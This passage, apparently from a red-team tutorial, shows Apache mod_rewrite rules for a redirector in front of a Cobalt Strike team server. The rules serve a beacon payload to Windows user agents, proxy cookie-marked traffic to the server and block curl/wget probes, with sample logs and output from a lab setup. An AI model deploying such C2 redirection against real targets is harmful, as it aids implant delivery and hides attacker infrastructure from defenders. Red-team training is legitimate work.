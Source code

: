 #### Specify User Agent Windows NT 10.0
```bash
ubuntu@redirector-1 ~> curl -k -A "Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko" https://localhost/win-payload.exe

05/27 15:48:45 visit (port 443) from: 127.0.0.1
	Request: GET /win-payload.exe
	page Serves /home/ubuntu/cobaltstrike/uploads/beacon.exe
	Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko
```

# Cookie Rules

Some HTTP C2 profiles add a cookie in the request to carry information such as metadata, or even just as a canary.  We can use the `%{HTTP_COOKIE}` variable to only redirect the request if this cookie is present.
```bash
RewriteEngine on

RewriteCond %{HTTP_COOKIE} TestCookie [NC]
RewriteRule .* https://localhost:8443/cookie-test [P]
```
  

If we curl localhost without the cookie, we just see the default index page.
```bash
ubuntu@redirector-1 ~> curl -k https://localhost
Hello from Apache
```
  

But if we add the cookie, Apache proxies the request to the Team Server.
```bash
ubuntu@redirector-1 ~> curl -k --cookie "TestCookie=Blah" https://localhost 

05/26 15:59:08 visit (port 443) from: 127.0.0.1
	Request: GET /cookie-test
	Response: 404 Not Found
	curl/7.68.0
```  

Since the rules are processed top-to-bottom, we can layer them to achieve a greater overall effect.  For instance, put specific blocking rules at the top and the proxying rules underneath.
```bash
RewriteEngine on

RewriteCond %{HTTP_USER_AGENT} "curl|wget" [NC]
RewriteRule .* - [F]

RewriteCond %{HTTP_COOKIE} "TestCookie" [NC]
RewriteRule .* https://localhost:8443/cookie-test [P]
```

In this case, the user agent rule triggers first so that even if we have the correct cookie name, the default curl/wget strings are blocked.
```bash
ubuntu@redirector-1 ~> curl -k --cookie "TestCookie=Blah" https://localhost
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at localhost Port 443</address>
</body></html>
```
  